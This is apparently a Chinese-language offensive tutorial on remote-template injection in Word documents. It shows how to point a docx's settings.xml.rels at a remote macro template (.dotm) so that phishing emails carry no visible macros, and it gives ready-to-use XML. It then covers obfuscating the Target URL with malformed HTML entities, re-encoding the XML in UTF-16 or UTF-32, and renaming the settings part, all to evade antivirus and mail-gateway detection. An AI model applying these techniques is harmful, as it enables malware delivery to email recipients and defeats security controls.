


# 远程模板及文档混淆

通过远程模板的方式，我们可以使得邮件中发送的docx文档不直接带宏，对规避免杀有帮助。通常的手法是修改 `word/_rels/settings.xml.rels`中的relationship标签的Target值为远程的DOTM文档

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="https://xxx.xxx.xxx/xx.dotm" TargetMode="External"/></Relationships>
```

该手法总所周知，防护实体可能会检测Target这一字段，并对文档进行拦截，下面笔者说一下对文档的混淆思路，避免因远程模板特征直接被邮件网关拦截。

## XML特性

我们知道，在web漏洞利用时，payload为xml/soap时，我们可以利用其XML特性来bypass WAF，这里也同样适用。

### HTML实体编码

编码脚本可以参考 https://github.com/turn1tup/scriptlet/blob/main/encoder.py

针对`Target`值我们可以使用的编码方式：HTML-10进制、HTML-16进制、HTML畸形编码，对应`encoder.py`输出的 html_entity_data_decimal、html_entity_data_hex、html_entity_data_spe



使用HTML畸形编码我们可以获得如下文档：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>

<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="&#x0000068;&#0000116;&#x00074;&#0000112;&#x0000073;&#00058;&#x000002f;&#0000047;&#x00078;&#000120;&#x0000078;&#000046;&#x0000078;&#00000120;&#x000078;&#000046;&#x000078;&#0000120;&#x00078;&#0000047;&#x000078;&#0000120;&#x0002e;&#0000100;&#x0006f;&#000116;&#x000006d;" TargetMode="External"/></Relationships>
```

### 字符集

通过修改xml头部标签的`encoding`字符集声明，并转换xml文档为对应的字符集，我们可以混淆整个xml文档

脚本参考 https://github.com/turn1tup/scriptlet/blob/main/charset_test.py

我们可以使用的字符集有 utf-16le 、utf-16be、utf-32le、utf-32be（另外微软的软件通常比较支持UTF-7，但这个字符集不好测试），在脚本中填入我们的 `settings.xml.rels`的原始内容，并修改`encoding`字段，运行脚本后使用获得的`setings.xml.rels`文件覆盖原始docx文档的 `word/rels/settings.xml/rels`文件即可。另外注意，我们使用记事本打开UTF16文档看到的内容与UTF8文档没有差异，但实际前者为后者2倍大小。



## 修改文档位置

`word/_rels/settings.xml.rels`的位置是可变动的

一般使用远程模板加载DOTM手法时，修改的文件为word/rels/settings.xml.res

我们可以修改为其他文件，过程如下：

①修改` [Content_Types].xml `中的`/word/settings.xml`


```
<Override PartName="/word/settings.xml" ContentType="application/vnd.openxmlformats-officedocument.wordprocessingml.settings+xml"/>
```

这里修改为`/word/foo.xml`

```
<Override PartName="/word/foo.xml" ContentType="application/vnd.openxmlformats-officedocument.wordprocessingml.settings+xml"/>
```


②同步修改的文件名称

`word/_rels/setting.xml` ->`word/_rels/foo.xml` 

`word/_rels/settings.xml.rels` ->`word/_rels/foo.xml.rels`

③`word/rels/document.xml.rels`中

```
<Relationship Id="rId6" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/settings" Target="setting.xml"/>
```

修改为

```
<Relationship Id="rId6" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/settings" Target="foo.xml"/>
```

